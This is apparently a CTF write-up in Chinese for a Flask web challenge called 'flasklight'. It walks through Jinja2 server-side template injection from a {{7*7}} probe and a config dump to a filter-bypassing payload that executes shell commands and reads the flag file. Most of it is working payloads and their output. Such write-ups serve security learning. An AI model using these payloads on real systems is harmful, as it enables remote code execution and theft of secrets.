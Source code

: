 ![[Pasted image 20221227093348.png|500]]

---
首页长这样
![[Pasted image 20221227093716.png|700]]

![[Pasted image 20221227093744.png]]

尝试传一些奇怪的东西
```python
/?search={{7*7}}
```

```
You searched for:
49
```

存在`SSTI`

```python
/?search={{config}}
```

```
<Config {'JSON_AS_ASCII': True, 'USE_X_SENDFILE': False, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_NAME': 'session', 'MAX_COOKIE_SIZE': 4093, 'SESSION_COOKIE_SAMESITE': None, 'PROPAGATE_EXCEPTIONS': None, 'ENV': 'production', 'DEBUG': False, 'SECRET_KEY': 'CCC{f4k3_Fl49_:v} CCC{the_flag_is_this_dir}', 'EXPLAIN_TEMPLATE_LOADING': False, 'MAX_CONTENT_LENGTH': None, 'APPLICATION_ROOT': '/', 'SERVER_NAME': None, 'PREFERRED_URL_SCHEME': 'http', 'JSONIFY_PRETTYPRINT_REGULAR': False, 'TESTING': False, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'TEMPLATES_AUTO_RELOAD': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'JSON_SORT_KEYS': True, 'JSONIFY_MIMETYPE': 'application/json', 'SESSION_COOKIE_HTTPONLY': True, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'TRAP_HTTP_EXCEPTIONS': False}>
```

`url_for`用不了QAQ
使用脚本找找`__builtins__`

```python
num = 0
for item in ''.__class__.__mro__[2].__subclasses__():
    try:
         if '__builtins__' in item.__init__.__globals__:
             print num,item
         num+=1
    except:
        num+=1

```

```
58 <class 'warnings.WarningMessage'>
59 <class 'warnings.catch_warnings'>
60 <class '_weakrefset._IterationGuard'>
61 <class '_weakrefset.WeakSet'>
71 <class 'site._Printer'>
76 <class 'site.Quitter'>
77 <class 'codecs.IncrementalEncoder'>
78 <class 'codecs.IncrementalDecoder'>
```

这题给`__global__`过滤了太狠毒了QAQ，服务端`__init__`可以直接通过索引访问元素，本地运行会报错==

```python
/?search={{[].__class__.__base__.__subclasses__()[58].__init__['__glo'+'bals__']['__builtins__']['__import__']('commands').getoutput('ls')}}
```

```
You searched for:
bin boot dev etc flasklight home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
```

```python
/?search={{[].__class__.__base__.__subclasses__()[58].__init__['__glo'+'bals__']['__builtins__']['__import__']('commands').getoutput('ls flasklight')}}
```

```
You searched for:
app.py coomme_geeeett_youur_flek
```

```python
/?search={{[].__class__.__base__.__subclasses__()[58].__init__['__glo'+'bals__']['__builtins__']['__import__']('commands').getoutput('cat flasklight/coomme_geeeett_youur_flek')}}
```

```
You searched for:
flag{b1e72009-df67-40c1-b2ae-c24c0a679158}
```

#Web #python #flask #SSTI #RCE 